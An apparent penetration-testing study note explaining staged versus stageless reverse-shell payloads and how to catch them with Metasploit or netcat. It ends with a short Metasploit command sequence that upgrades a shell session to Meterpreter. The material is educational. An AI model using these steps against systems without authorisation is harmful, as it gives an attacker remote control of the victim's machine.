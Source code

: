 # Shells

![](<../../../../.gitbook/assets/image (25) (1) (1) (1).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1) (1).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (35) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (26) (1) (1) (1).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (37) (1) (1) (1) (1).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (34) (1) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (36) (1) (1) (1) (1) (1) (1).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```
